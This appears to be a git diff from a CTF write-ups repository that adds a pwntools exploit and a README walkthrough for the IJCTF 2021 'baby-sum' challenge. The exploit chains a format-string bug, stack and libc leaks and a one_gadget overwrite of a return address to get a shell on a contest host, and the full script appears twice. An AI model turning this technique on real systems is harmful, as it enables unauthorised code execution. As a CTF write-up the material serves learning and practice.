

Added IJCTF.2021

Changed region(s): [[0.0, 0.0, 1.0, 1.0]]

diff --git a/IJCTF.2021/pwn/baby-sum/exploit.baby-sum.py b/IJCTF.2021/pwn/baby-sum/exploit.baby-sum.py
@@ -1,0 +1,51 @@
+#!/usr/bin/env python3
+# -*- coding: utf-8 -*-
+
+from pwn import *
+context.update(arch="amd64", os="linux")
+
+exe = context.binary = ELF('./baby-sum')
+libc = ELF('./libc.so.6')
+
+host = args.HOST or '35.244.10.136'
+port = int(args.PORT or 10252)
+
+io = connect(host, port)
+
+io.recvuntil('you: ', drop=True)
+# first we read the given stack leak
+stack = int(io.recvuntil('\n',drop=True),16)
+print('leak stack = '+hex(stack))
+
+# the name 6th entry will be on stack untouched, so we put a pointer
+name = 'A'*40+p64(stack+0x30)
+
+io.sendlineafter('you?\n', name)
+
+io.sendlineafter('> ', '%1$p')
+io.sendlineafter('> ', '%13$n')         # clear the i counter variable
+io.sendlineafter('> ', '%ld')           # replace '%8s' string by '%ld'  no we can input numbers one by one
+io.sendlineafter('> ' ,'-')             # pass the input, without writing anything
+io.sendlineafter('> ' ,'-100')          # overwrite i variable with -100 (after all it is an int64)
+io.sendlineafter('> ', str(stack-0x58)) # overwrite num variable to point before on stack containing a libc address, to leak it
+
+# get our libc leak & calculate libc base
+libc.address = u64(io.recvuntil('\n', drop=True).ljust(8,b'\x00')) - 0x1ec6a0
+print('libc base = '+hex(libc.address))
+
+def one_gadget(filename, base_addr=0):
+  return [(int(i)+base_addr) for i in subprocess.check_output(['one_gadget', '--raw', filename]).decode().split(' ')]
+
+onegadgets = one_gadget('libc.so.6', libc.address)
+
+for i in range(16):
+  io.sendlineafter('> ' ,'-')
+
+io.sendlineafter('> ' ,'0')		# set i counter to 0 again (3 writes is all we need)
+io.sendlineafter('> ' ,'-')
+io.sendlineafter('> ' ,'-')
+io.sendlineafter('> ' , str(onegadgets[1]))  # write onegadget to calc() return address , at this points i>2,  so calc() will return to our onegadget
+
+# got shell now
+io.interactive()
+

diff --git a/IJCTF.2021/pwn/baby-sum/README.md b/IJCTF.2021/pwn/baby-sum/README.md
@@ -14,7 +14,7 @@ the main function first:
 
 ![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/IJCTF.2021/pwn/baby-sum/imgs/main_rev.png)
 
-then, the welcome function :
+the welcome function :
 
 ![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/IJCTF.2021/pwn/baby-sum/imgs/welcome_rev.png)
 
@@ -26,7 +26,7 @@ then let's see the calc() function and vuln() function that is called from calc(
 
 ![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/IJCTF.2021/pwn/baby-sum/imgs/calc_rev.png)
 
-et the called vuln() function, that is obviously a format string vulnerability.. 
+the called vuln() function, that is obviously a format string vulnerability.. 
 
 ![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/IJCTF.2021/pwn/baby-sum/imgs/vuln_rev.png)
 
@@ -63,4 +63,97 @@ let's try...
 ok it works, as you can see we, if we put a breakpoint to the printf in vuln() function we can see the 'BBBBBBBB' == 0x4242424242424242   in the 13th position reachable by printf... good...
 
 ![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/IJCTF.2021/pwn/baby-sum/imgs/dump1.png)
+
+as we know (with the welcome leak) the variable addresses, we will put a pointer to i variable counter, in position 13, with the name input string in welcome() function..
+
+like this we can send '%13$n' string as input when we want, to clear i variable counter...and write 3 more positions...
+
+so our attack strategy will be:
+
+![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/IJCTF.2021/pwn/baby-sum/imgs/attack1.png)
+
+num pointer points to &number[0]  at beginning of the loop,
+
+we first send string "%1$p" to pass this position    (num --> pos 10)
+
+then we send string "%13$n" to clear counter variable i    (num --> pos 11)
+
+the we send string "%ld" that will replace "%8s" string at pos 12 (num --> pos12)
+
+from now we can only enter numbers, as we changed the scanf format string to %ld, so we send '-'  that will write nothing to this position  (num --> pos13)
+
+now num points to i (the counter)  we send -100 , as i is defined as a int64 and can be negative, so that we can write up to 102 values (num --> pos14)
+
+now num points to itself on stack, good good!  we can modify it to move the place we will write on stack !! 
+
+we set it to an address before on stack, that contains a libc address.. this address will be leaked by the puts() in vuln() function..
+
+we got our libc leak, and with it calculate libc base,  that will be needed to calculate the one gadget address we will use in libc
+
+now we pass the next 16 positions, be sending '-' string to scanf..
+
+we are now again at i variable position, we send '0' to clear it (from now only 3 writes left before the calc() function return..
+
+we pass the two next stack position, to reach the calc() function return address, that we replace with a one gadget address in libc..
+
+and guess what ????
+
+We got shell..
+
+
+![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/IJCTF.2021/pwn/baby-sum/imgs/gotshell.png)
+
+
+```
+#!/usr/bin/env python3
+# -*- coding: utf-8 -*-
+
+from pwn import *
+context.update(arch="amd64", os="linux")
+
+exe = context.binary = ELF('./baby-sum')
+libc = ELF('./libc.so.6')
+
+host = args.HOST or '35.244.10.136'
+port = int(args.PORT or 10252)
+
+io = connect(host, port)
+
+io.recvuntil('you: ', drop=True)
+# first we read the given stack leak
+stack = int(io.recvuntil('\n',drop=True),16)
+print('leak stack = '+hex(stack))
+
+# the name 6th entry will be on stack untouched, so we put a pointer
+name = 'A'*40+p64(stack+0x30)
+
+io.sendlineafter('you?\n', name)
+
+io.sendlineafter('> ', '%1$p')
+io.sendlineafter('> ', '%13$n')         # clear the i counter variable
+io.sendlineafter('> ', '%ld')           # replace '%8s' string by '%ld'  no we can input numbers one by one
+io.sendlineafter('> ' ,'-')             # pass the input, without writing anything
+io.sendlineafter('> ' ,'-100')          # overwrite i variable with -100 (after all it is an int64)
+io.sendlineafter('> ', str(stack-0x58)) # overwrite num variable to point before on stack containing a libc address, to leak it
+
+# get our libc leak & calculate libc base
+libc.address = u64(io.recvuntil('\n', drop=True).ljust(8,b'\x00')) - 0x1ec6a0
+print('libc base = '+hex(libc.address))
+
+def one_gadget(filename, base_addr=0):
+  return [(int(i)+base_addr) for i in subprocess.check_output(['one_gadget', '--raw', filename]).decode().split(' ')]
+
+onegadgets = one_gadget('libc.so.6', libc.address)
+
+for i in range(16):
+  io.sendlineafter('> ' ,'-')
+
+io.sendlineafter('> ' ,'0')		# set i counter to 0 again (3 writes is all we need)
+io.sendlineafter('> ' ,'-')
+io.sendlineafter('> ' ,'-')
+io.sendlineafter('> ' , str(onegadgets[1]))  # write onegadget to calc() return address , at this points i>2,  so calc() will return to our onegadget
+
+# got shell now
+io.interactive()
+```
 
